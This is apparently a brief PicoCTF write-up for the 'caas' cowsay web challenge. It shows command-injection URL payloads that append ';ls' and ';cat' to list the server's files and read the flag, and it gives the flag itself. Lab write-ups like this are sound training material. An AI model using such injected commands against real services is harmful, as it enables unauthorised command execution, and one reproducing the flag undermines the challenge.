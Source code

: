 # WriteUp PicoCTF

# caas - Web Exploition

## Statement

<img src="Images/caas.jpg" alt="challenge caas" width="300" height="300"/>

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**